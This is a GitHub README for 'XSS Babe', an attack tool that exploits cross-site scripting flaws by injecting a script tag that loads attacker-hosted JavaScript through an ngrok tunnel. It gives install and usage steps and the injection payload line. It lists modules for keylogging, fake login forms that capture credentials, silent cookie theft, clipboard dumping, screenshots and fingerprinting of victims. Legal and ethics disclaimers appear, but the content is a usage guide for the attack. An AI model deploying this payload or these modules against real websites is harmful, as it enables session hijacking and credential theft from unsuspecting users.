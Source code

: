 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 

## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/XSS-BABE.git
cd xss_babe
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `sessions/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module            | Description                                      |
|-------------------|--------------------------------------------------|
| keylogger         | Records keystrokes in real time                  |
| fake_login        | Displays fake login form for credential capture  |
| clipboard         | Dumps contents of the victim’s clipboard         |
| auto_cookie_steal | Extracts document cookies silently               |
| browser_history   | Reads browser history if accessible              |
| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
| fingerprint       | Collects user-agent, screen size, timezone       |
| screenshot        | Captures visual screenshot using HTML2Canvas     |
| recon             | Loads iframe ports and resources for open recon  |
| cross_tab_spy     | Detects and tracks multiple open tabs            |

---

## File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI
├── server.py                   # Flask server for payload delivery
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # XSS loader script
│   └── modules/
│       ├── keylogger.js
│       ├── fake_login.js
│       ├── clipboard.js
│       ├── auto_cookie_steal.js
│       ├── browser_history.js
│       ├── download_bait.js
│       ├── fingerprint.js
│       ├── screenshot.js
│       ├── recon.js
│       └── cross_tab_spy.js
├── utils/
│   └── save_to_txt.py          # Helper to save session info
└── sessions/
    └── [timestamp].txt         # Auto-generated session logs
```

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
sessions/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)

